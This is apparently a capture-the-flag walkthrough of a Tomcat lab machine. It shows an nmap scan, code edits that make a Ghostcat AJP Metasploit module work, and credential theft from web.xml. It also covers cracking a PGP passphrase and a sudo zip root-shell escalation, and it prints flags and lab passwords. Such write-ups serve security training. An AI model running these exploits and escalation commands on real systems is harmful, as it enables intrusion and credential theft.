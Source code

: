 ### Find the services exposed by the machine
```BASH
nmap -sV -p- 10.10.119.52
```
![image](https://github.com/user-attachments/assets/843c0030-20f7-4aa6-9408-5b3c25261a22)

TCP port 8009 is open and running the Apache JServ Protocol (AJP) 1.3, while port 8080 is serving an Apache Tomcat 9.0.30 instance. This version of Apache Tomcat (9.0.30), when combined with an exposed AJP port is vulnerable to the [Ghostcat vulnerability - CVE-2020-193](https://www.exploit-db.com/exploits/49039)

<span style="line-height:0.5;">&nbsp;</span>

### Get credentials
The exploit runs a Metasploit module or code that depends on the Metasploit Framework, so it must be executed within Metasploit. Before moving the file to the correct directory, I had to make a few modifications to get it working. 

Copy code to a new file and create the directory for the custom module:
```BASH
mkdir -p ~/.msf4/modules/exploits/multi/http
```
Move  `exploit.rb` into the directory:
```BASH
mv exploit.rb ~/.msf4/modules/exploits/multi/http/ghostcat.rb
```
Run msfconsole:
```BASH
msfconsole
```
Reload all modules:
```BASH
reload_all
```
Use the custom module:
```BASH
use exploit/multi/http/ghostcat
```
Set the parameters and run the exploit:
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```
![image](https://github.com/user-attachments/assets/ed1c8cf8-ae01-4e7a-af22-9cce1496c9cf)  

This indicates the exploit successfully read the file from the remote Tomcat server via the AJP port. However, the script doesn't print the actual response body. Go back to the script's directory and make the following change:  

Replace:
```RUBY
print "#{buf[idx..(idx+len)]}"
```
With:
```RUBY
content = buf[idx...(idx+len)]
print_status("File contents:\n")
print_line(content)
```

<span style="line-height:0.5;">&nbsp;</span>

### Fix Internal Server Error
![image](https://github.com/user-attachments/assets/8bfb432d-af72-4b74-8bb0-4b29f97ef7f2)  

If the server responds with:
```BASH
500 Internal Server Error
Message: The requested resource [index] is not available
```

It's due to this line in the script:
```RUBY
{"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
```

Go back to the directory where custom module is located and make more changes:
Replace:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "index"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```
With:
```RUBY
attributes = [
    {"req_attribute" => ["javax.servlet.include.request_uri", "/"]},
    {"req_attribute" => ["javax.servlet.include.path_info" , target_file]},
    {"req_attribute" => ["javax.servlet.include.servlet_path" , "/"]}
]
```

Go back to msfconsole, set parameters again, and rerun:
```BASH
set RHOSTS 10.10.149.201
set RPORT 8009
set FILENAME /WEB-INF/web.xml
run
```
From the response you can see that credentials are `skyfuck:8730281lkjlkjdqlksalks`  

![image](https://github.com/user-attachments/assets/9d9d8391-1e8e-4079-96d3-beb9665c44c7)
![image](https://github.com/user-attachments/assets/1ee42b3a-bb7d-4f8a-9639-c016b6204ade)

<span style="line-height:0.5;">&nbsp;</span>

### Log in to the skyfuck account
Use SSH:
```BASH
ssh skyfuck@10.10.149.201
```
![image](https://github.com/user-attachments/assets/b3d3f0ca-4b05-4925-bd46-1ca9a8458e55)

Inside the account, there are two suspicious files: `credential.pgp` and `tryhackme.asc`. These are likely PGP-encrypted and may contain the flag or credentials.   

![image](https://github.com/user-attachments/assets/d6526c3c-a1d9-4e02-bd78-0801d744d2e3)

<span style="line-height:0.5;">&nbsp;</span>

### Download encrypted files to your attack machine
Start a Python HTTP server on the victim machine:
```BASH
python3 -m http.server 8000
```

On your attack box:
```BASH
wget http://10.10.149.201:8000/credential.pgp
wget http://10.10.149.201:8000/tryhackme.asc
```
![image](https://github.com/user-attachments/assets/e8924bc1-ac8c-4e27-921a-35e5a7a76071)

<span style="line-height:0.5;">&nbsp;</span>

### Crack the PGP key passphrase with John the Ripper
Run gpg2john on the exported key:
```BASH
gpg2john secret.asc > pgp.hash
```
Run John on the hash:
```BASH
john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash
```
![image](https://github.com/user-attachments/assets/a3fe8843-6791-4c58-a713-98f8c63ace80)

The passphrase is `alexandru`. That is the passphrase protecting the tryhackme.asc, which is used to decrypt the file credential.pgp. Import the key and decrypt the file:
```BASH
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```
![image](https://github.com/user-attachments/assets/74e4d93c-a1ab-420b-91b0-a1c9db65f53a)
This reveals new credentials: `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

<span style="line-height:0.5;">&nbsp;</span>

### Log in to the merlin account
Switch user:
```BASH
su merlin
```
Go to home directory.
```BASH
cd /home/merlin
```
![image](https://github.com/user-attachments/assets/87e0dbca-d8a4-4fd3-968a-2d129ad4d7c8)

user.txt flag:
<pre>THM{GhostCat_1s_so_cr4sy}</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Escalate privileges and obtain root.txt
Run this command to check what merlin is allowed to run as root or with elevated privileges, without a password or under specific conditions. 
```BASH
sudo -l
```

![image](https://github.com/user-attachments/assets/fd072d8d-0b6a-416f-8017-843643002cfe)  

Merlin can run /usr/bin/zip as root without password. To escalate privileges using zip go to [GTFOBins](https://gtfobins.github.io/) and search zip. Go to 'Sudo' section and if you can run zip as root via sudo, spawn a root shell by running:
```BASH
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Read root flag.
```BASH
cat /root/root.txt
```

![image](https://github.com/user-attachments/assets/c9d1a816-d330-41a0-bab0-196ec2525ba3)

root.txt flag:
<pre>THM{Z1P_1S_FAKE}</pre>
